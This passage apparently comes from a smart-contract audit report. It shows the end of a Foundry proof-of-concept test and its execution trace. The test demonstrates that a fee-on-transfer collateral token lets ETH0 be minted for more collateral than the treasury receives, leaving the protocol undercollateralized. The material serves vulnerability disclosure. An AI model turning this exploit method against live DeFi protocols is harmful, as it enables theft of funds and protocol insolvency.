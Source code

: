 ```solidity
        console.log("Collateral deficit:", collateralDeficit);
    }
```

Key differences in this actual POC:
1. Adds initial backing to treasury (`1_000_000e18` tokens) to avoid backing checks
2. Uses `stbcToken.balanceOf()` to track ETH0 balances
3. Includes detailed assertions to verify:
   - Correct fee calculation
   - Expected token receipt
   - ETH0 minting amount
   - Undercollateralization condition
4. More comprehensive balance tracking and verification

### Test Results and Execution Traces

Running the test:
```bash
forge test --match-test testFeeOnTransferTokenVulnerability -vvv
```

Full execution trace:
```solidity
[1589832] DaoCollateralTest::testFeeOnTransferTokenVulnerability()
├─ [466586] → new FeeOnTransferToken@0xc7183455a4C133Ae270771860664b6B7ec320bB1
│   └─ ← [Return] 2105 bytes of code
├─ [0] VM::startPrank(admin: [0x673C638147fe91e4277646d86D5AE82f775EeA5C])
│   └─ ← [Return]
├─ [77662] TokenMapping::addEth0CollateralToken(FeeOnTransferToken: [0xc7183455a4C133Ae270771860664b6B7ec320bB1])
│   ├─ [265] FeeOnTransferToken::decimals() [staticcall]
│   │   └─ ← [Return] 18
│   ├─ [2728] RegistryAccess::hasRole(0x0000000000000000000000000000000000000000000000000000000000000000, admin: [0x673C638147fe91e4277646d86D5AE82f775EeA5C]) [staticcall]
│   │   └─ ← [Return] true
│   ├─ emit AddEth0CollateralToken(collateral: FeeOnTransferToken: [0xc7183455a4C133Ae270771860664b6B7ec320bB1], collateralId: 1)
│   └─ ← [Return] true
├─ [0] VM::stopPrank()
├─ [25825] DataPublisher::addWhitelistPublisher(FeeOnTransferToken: [0xc7183455a4C133Ae270771860664b6B7ec320bB1], hashnote: [0x0b54A50c0409Dab2e63c3566324268ED53Ec019a])
│   ├─ emit NewPublisher(token: FeeOnTransferToken: [0xc7183455a4C133Ae270771860664b6B7ec320bB1], publisher: hashnote: [0x0b54A50c0409Dab2e63c3566324268ED53Ec019a])
│   └─ ← [Stop]

Logs:
  Initial treasury balance: 1000000000000000000000000
  Tokens sent by user: 1000000000000000000000
  Tokens received by treasury: 990000000000000000000
  ETH0 minted to user: 1000000000000000000000
  Collateral deficit: 10000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped
```
